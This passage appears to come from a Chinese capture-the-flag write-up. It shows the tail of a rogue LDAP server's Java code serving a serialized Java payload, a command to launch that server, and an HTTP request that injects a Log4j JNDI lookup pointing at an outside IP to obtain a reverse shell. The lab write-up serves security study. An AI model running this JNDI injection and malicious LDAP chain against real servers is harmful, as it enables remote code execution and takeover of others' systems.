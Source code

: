 ```plain
                cbstring = cbstring.substring(0, refPos);
            }

            e.addAttribute("javaSerializedData", Base64.decode(payload));
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

‍

以 jar 的形式开启，并且传入序列化的值

```plain
java -jar LDAPServer.jar ip 1.txt
```

然后用 JNDI 去找 IP+PORT 即可成功反弹

‍

[![](assets/1708870136-31afd208458ed59e9b3f54842a8bf5b0.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121789.png)​​

```plain
GET /{{urlenc(${jndi:ldap://152.136.46.28:6666/Evail})}} HTTP/1.1
Host: node5.anna.nssctf.cn:28379
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
```
